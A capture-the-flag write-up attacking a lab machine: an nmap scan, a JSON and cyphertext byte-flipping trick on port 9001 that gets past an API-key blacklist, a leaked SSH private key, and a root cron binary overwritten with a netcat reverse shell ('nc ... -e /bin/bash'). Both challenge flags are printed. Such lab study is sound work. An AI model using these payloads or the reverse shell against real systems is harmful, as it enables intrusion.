 # Nmap

After scanning the machine with nmap, there are 2 ports open: `22` and `9001`.

```bash
nmap --top-ports 1000 10.0.10.97
nmap --top-ports 1000 10.0.10.97 -sV
```

![](screenshots/1.png)

```
PORT     STATE SERVICE
22/tcp   open  ssh
9001/tcp open  tor-orport

PORT     STATE SERVICE
22/tcp open  ssh     OpenSSH 9.0 (protocol 2.0)
```

The service on port `9001` died from the portscan. The machine had to be restarted.

# 9001

There is a text based service on port `9001`. With commands `getFlag` and `getSshKey` some API key and crypto, based on a json.

Based on the examples, `1337` is blacklisted in the `apiKey`. Otherwise we receive a cyphertext, which can be piped back to get the original plaintext (and that our API key is invalid).

![](screenshots/2.png)

After a lot of experimentations, the following can be noted.

 - It is using some IV. Same plaintext results in different cyphertext.
 - Block size is 16.
 - Modifying a byte in the cyphertext is thrashing that block, and rarely a byte in next block, but nothing else.
 - The `apiKey` and `operation` is mandatory, can occur more than once, only the last one is used.
 - The `apiKey` can contail `1337` if it is not the last.
 - Some `comment` keys can be added with arbitrary content, it has no effect.
 - Valid JSON is required.

```json
{"comment":"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA", "apiKey": "", "operation": "getFlag"}  
```

![](screenshots/3.png)

![](screenshots/4.png)

Based on the observations, a JSON can be created with 2 `apiKey`s, where the second one is empty (no `1337`) and can fit in a block, sorrounded with comments. It is structured in a way that if the block is thrashed, it should still be a valid JSON, because the garbage will be inside the quotes.

```json
{"apiKey":"1337d74c985b01ab9d4f996690a8dde658ec307313c1a521810bdcff6d964b4e","comment2":"AAAAAAAAA","apiKey":"\"", "commenttttttttt":"","operation": "getFlag"} 
```

Modifying the returned cyphertext byte at offset 218 results in the flag, because the program is using the first `apiKey` now.

![](screenshots/5.png)

# Flag 1
flag{off_3_8861a4661b4436d2e81165a36adc486c}

# SSH key
There is a `getSshKey` operation as well. Crafting an input like earlier can use this command.

![](screenshots/6.png)

This is handing out an SSH key for the `node` user.

```
1.	SSH key for the "node" user:
2.	-----BEGIN OPENSSH PRIVATE KEY-----
3.	b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
4.	QyNTUxOQAAACCMQVShbnEIsjRAUGUUb5zc93yic5+VZXtYMH4GjrNQLAAAAIhfoqZmX6Km
5.	ZgAAAAtzc2gtZWQyNTUxOQAAACCMQVShbnEIsjRAUGUUb5zc93yic5+VZXtYMH4GjrNQLA
6.	AAAEBw9eew4bjTG894tjjQruEAgtCNUXVRYJuRPsHQzcLt+YxBVKFucQiyNEBQZRRvnNz3
7.	fKJzn5Vle1gwfgaOs1AsAAAAAAECAwQF
8.	-----END OPENSSH PRIVATE KEY----- 
```

Not every client likes this format, so it was converted via `putty`. Import key then Export OpenSSH key (force new file format). This is compatible with my client.

![](screenshots/7.png)

```
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtz
c2gtZWQyNTUxOQAAACCMQVShbnEIsjRAUGUUb5zc93yic5+VZXtYMH4GjrNQLAAA
AJAvteWYL7XlmAAAAAtzc2gtZWQyNTUxOQAAACCMQVShbnEIsjRAUGUUb5zc93yi
c5+VZXtYMH4GjrNQLAAAAEBw9eew4bjTG894tjjQruEAgtCNUXVRYJuRPsHQzcLt
+YxBVKFucQiyNEBQZRRvnNz3fKJzn5Vle1gwfgaOs1AsAAAAAAECAwQFBgcICQoL
DA0=
-----END OPENSSH PRIVATE KEY----- 
```

This can be used to SSH into the other open port.

```bash
ssh -i /tmp/ssh.key node@10.0.10.97 
```

# Cron

There is a cron job running as root that runs a binary that can be modified by anyone. It runs every minute.


![](screenshots/8.png)

Writing our code into the binary is running it as root on the next attempt.

```
echo '#!/bin/sh' >> rkhunter
echo 'nc 10.0.1.2 4444 -e /bin/bash' >> rkhunter
chmod 777 rkhunter
cat ./rkhunter > /usr/bin/rkhunter 
```

![](screenshots/9.png)

The flag is not a txt, but a binary, running it outputs the flag. It is checking a few things (for example password hash for root), so the easiest is running it on the machine itself.

![](screenshots/10.png)

# Flag 2
flag{off_4_e946801225142d40d50d416e3a77d6d9}
